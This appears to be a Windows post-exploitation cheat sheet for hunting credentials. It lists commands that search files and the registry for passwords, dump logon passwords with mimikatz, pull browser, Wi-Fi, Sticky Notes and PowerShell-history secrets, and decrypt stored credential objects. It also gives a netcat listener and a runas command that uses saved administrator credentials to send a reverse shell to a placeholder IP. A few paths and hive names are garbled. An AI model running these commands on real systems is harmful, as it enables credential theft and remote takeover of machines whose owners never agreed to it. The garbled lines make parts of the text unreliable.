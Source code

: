 ```yaml
---
legal-banner: true
---
```


### **FILE SEARCHING COMMANDS**

1.  Search for potentially risky files in the current directory and its subdirectories:  
    `dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config* == *user*`
    
2.  Search for cleartext credentials:  
    `gci * -Include *.xml -Recurse -EA SilentlyContinue | select-string cpassword`
    
3.  search for IIS Web config file  
    `Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue`
    
4.  Find Files Containing "Password" Across Common Configuration File Types:  
    `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.ps1 *.bat *.zip`
    
5.  Hunt for SAM and SYSTEM Backups  
    `cd C: & dir /S /B SAM == SYSTEM == SAM.OLD == SYSTEM.OLD == SAM.BAK == SYSTEM.BAK`
    
6.  Use Tools Like winPEAS to Search for Files Containing Credentials:  
    `.\winPEASany.exe quiet cmd searchfast filesinfo`
    

### **SEARCHING FOR CREDENTIALS IN THE REGISTRY**

3.  Search for Passwords in HKEY_LOCAL_MACHINE (HKLM)  
    `reg query HKLM /f password /t REG_SZ /s`
4.  Search for Passwords in HKEY_CURRENT_USER (HKCU)  
    `reg query HKLU /f password /t REG_SZ /s`
5.  Retrieve Credentials from PuTTY  
    `reg query HKEY_CURRENT_USERSoftwareSimonTathamPuTTYSessions /f "Proxy" /s`

### **SAVED WINDOWS CREDENTIALS**

Windows provides the functionality to use and save other users' credentials. The following commands help list and Use these saved credentials:

1.  Automatically Identify Saved Credentials with winPEAS:  
    `.\winPEASx64.exe quiet cmd windowscreds`
2.  Check AutoLogon Credentials in registry:  
    `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`
3.  Extract plaintext passwords from memory using mimikatz:  
    `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"`
4.  Manually List Saved Credentials:  
    `cmdkey /list`
5.  Run Command with Saved Credentials:  
    `runas /savecred /user:admin cmd.exe`
6.  Prepare to Receive a Reverse Shell with Netcat:  
    `nc -lvnp 1337`
7.  Execute Commands Using Saved Credentials for a Reverse Shell:  
    `runas /env /noprofile /savecred /user:DESKTOP-T3I4BBK\administrator "c:\temp\nc.exe [IP-ADRESS] 1337 -e cmd.exe"`

### **POWERSHELL HISTORY FILE**

1.  Locate PowerShell History File:  
    `(Get-PSReadLineOption).HistorySavePath`
2.  Read Contents of PowerShell History File:  
    `gc (Get-PSReadLineOption).HistorySavePath`
3.  Retrieve PowerShell History Files for All Users:  
    `foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}`

### **BROWSER CREDENTIALS**

1.  Extract browser credentials using LaZagne:  
    `lazagne.exe browsers`
2.  Chrome Password  
    `gc 'C:UsersuserAppDataLocalGoogleChromeUser DataDefaultCustom Dictionary.txt' | Select-String password`

### **POWERSHELL CREDENTIALS**

1.  Import Credentials from XML File:  
    `$credential = Import-Clixml -Path 'C:\scripts\pass.xml'`
    
2.  Retrieve Username from Imported Credentials:  
    `$credential.GetNetworkCredential().Username`
    
3.  Retrieve Password from Imported Credentials:  
    `$credential.GetNetworkCredential().Password`
    
4.  Complete Example to Decrypt and Display Username and Password:
    
    ```PowerShell
    $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
    $username = $credential.GetNetworkCredential().Username
    $password = $credential.GetNetworkCredential().Password
    "Username: $username"
    "Password: $password"
    ```
    

### **STICKY NOTES PASSWORDS**

1.  Locate Sticky Notes Database Files:  
    `ls C:\Users\[USER]\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState`
    
2.  Set Execution Policy to Bypass for the Current Process:  
    `PS C:\> Set-ExecutionPolicy Bypass -Scope Process`
    
3.  Change Directory to Where PSSQLite is Located:  
    `PS C:\> cd .\PSSQLite\`
    
4.  Import the PSSQLite module:  
    `PS C:\PSSQLite> Import-Module .\PSSQLite.psd1`
    
5.  Define the path to the Sticky Notes database file:  
    `PS C:\PSSQLite> $db = 'C:\Users\[USER]\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'`
    
6.  Query Database to Retrieve Text of Notes:  
    `PS C:\PSSQLite> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | Format-Table -Wrap`
    
7.  Extract and View Contents of Database File Using Strings Command:  
    `strings 'C:\Users\[USER]\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite-wal'`
    

### **WIFI PASSWORDS**

1.  View List of All Saved Wireless Networks:  
    `PS C:\> netsh wlan show profile`
    
2.  Retrieve Password for a Specific Wireless Network Profile:  
    `PS C:\> netsh wlan show profile [PROFILE-NAME] key=clear`
    
3.  Oneliner method to extract wifi passwords from all the access point.  
    `cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on`
    

### **UNATTEND.XML**

When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

### **MANUALLY**

1.  `C:\Unattend.xml`

2.  `C:\Windows\Panther\Unattend.xml`

3.  `C:\Windows\Panther\Unattend\Unattend.xml`
    
4.  `C:\Windows\System32\sysprep.inf`
    
5.  `C:\Windows\System32\sysprep\sysprep.xml`
    

### **AUTOMATICALLY**

1.  Perform a detailed search for unattended and sysprep files:  
    `Get-ChildItem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue`
    
2.  Search for specific log and configuration files:  
    `dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul`
    
3.  Search for the term 'password' in all files:  
    `findstr /spin "password" *.*`
    
4.  Open the Unattend.xml File with a Text Editor to Review Content:  
    ```xml
    <AutoLogon>
        <Password>
            <Value>HackFast_p@ss</Value>
            <PlainText>true</PlainText>
        </Password>
        <Enabled>true</Enabled>
        <LogonCount>2</LogonCount>
        <Username>Administrator</Username>
    </AutoLogon>
    ```